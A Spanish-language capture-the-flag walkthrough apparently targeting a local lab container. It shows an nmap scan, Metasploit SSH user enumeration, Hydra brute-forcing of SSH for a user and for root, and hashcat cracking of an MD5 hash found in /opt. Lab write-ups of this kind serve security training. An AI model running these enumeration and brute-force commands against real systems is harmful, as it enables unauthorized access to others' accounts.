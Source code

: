Desplegamos el contenedor:

```Bash
bash auto_deploy.sh 
```

![Pasted image 20250130205609](https://github.com/user-attachments/assets/af261095-4475-4fba-be66-9763d5705f22)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250130205731](https://github.com/user-attachments/assets/deb0c2fd-3939-4853-94a8-a5e1197db29a)

Utilizamos **Metasploit** para buscar usuarios:

```
search ssh_enumusers
```

![Pasted image 20250131104151](https://github.com/user-attachments/assets/7134f0cc-fb7f-4bde-8aa8-d3eb885f9c22)

```
use auxiliary/scanner/ssh/ssh_enumusers
```

![Pasted image 20250131104431](https://github.com/user-attachments/assets/54aa9ee2-4bc8-43c2-9a8c-5263351c6577)

```
show options
```

![Pasted image 20250131104454](https://github.com/user-attachments/assets/b3025ead-e21e-4d95-b9c9-f3be363400c4)

```
set RHOSTS 172.17.0.2
```

![Pasted image 20250131104537](https://github.com/user-attachments/assets/cf34ce4c-cc36-4803-a7ef-a0b99c36c8a3)

```
set USER_FILE /usr/share/wordlists/rockyou.txt
```

![Pasted image 20250131104553](https://github.com/user-attachments/assets/dc0317f9-1f38-4286-86c9-fb53ca5dc107)

```
show options
```

![Pasted image 20250131104620](https://github.com/user-attachments/assets/371f6b94-3205-48e4-b95d-3d023c167469)

```
run
```

![Pasted image 20250131104734](https://github.com/user-attachments/assets/d83b9a9d-6306-48d0-87cc-829fe41489b5)

Fuerza Bruta con **Hydra**:

```
hydra -l lovely -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![Pasted image 20250130210723](https://github.com/user-attachments/assets/d80e509d-a42f-44c1-9d09-c8a70c17da22)

Nos conectamos con **SSH**:

```
ssh lovely@172.17.0.2
```

![Pasted image 20250130211908](https://github.com/user-attachments/assets/b1cd994a-16bc-4090-a0e1-bb51e23adf13)

Buscamos archivos ocultos:

```
cd /opt
```

![Pasted image 20250131101511](https://github.com/user-attachments/assets/3bdc329f-5a83-4ad0-8f9f-60c01696dcc2)

```
ls -la
```

![Pasted image 20250131101531](https://github.com/user-attachments/assets/f5447675-7f03-4db2-8dcb-f6a6db0bf03c)

```
cat .hash
```

![Pasted image 20250131101555](https://github.com/user-attachments/assets/c3690b83-342a-45d3-90bb-65e1f03fbb1d)

Encontramos un hash.

Utilizamos **hash-indentifier** para ver tipo de hash:

```
hash-identifier aa87ddc5b4c24406d26ddad771ef44b0
```

![Pasted image 20250131102344](https://github.com/user-attachments/assets/e8f85091-e0ef-443b-b184-74cce072fbcc)

Utilizamos **hashcat** para crackear:

```
nano hash.txt
```

![Pasted image 20250131101629](https://github.com/user-attachments/assets/172d1af1-bf37-46dd-bc56-5ca9c906fb0e)

```
aa87ddc5b4c24406d26ddad771ef44b0
```

![Pasted image 20250131103229](https://github.com/user-attachments/assets/f6cdb786-8863-4f1a-8384-178092a23cb8)

```
hashcat -a3 -m 0 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

![Pasted image 20250131102956](https://github.com/user-attachments/assets/b7ce0526-44c2-4126-b6ba-83237dccaaf1)

![Pasted image 20250131102847](https://github.com/user-attachments/assets/2d7def86-33ab-4525-8d6b-62916a93c2d7)

Otra forma de tener la contraseña:

Fuerza Bruta con **Hydra**:

```
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![Pasted image 20250130211807](https://github.com/user-attachments/assets/a0c46659-d0f6-4e17-bdb0-d9045bdfd8dc)

Nos conectamos con **SSH**:

```
ssh root@172.17.0.2
```

![Pasted image 20250131103437](https://github.com/user-attachments/assets/6d5f7e0b-6a71-4a32-bfb2-54092165478b)

```
whoami
```

![Pasted image 20250131103454](https://github.com/user-attachments/assets/c44ca49a-2fbc-4e6c-974d-d27f50b3ca0b)
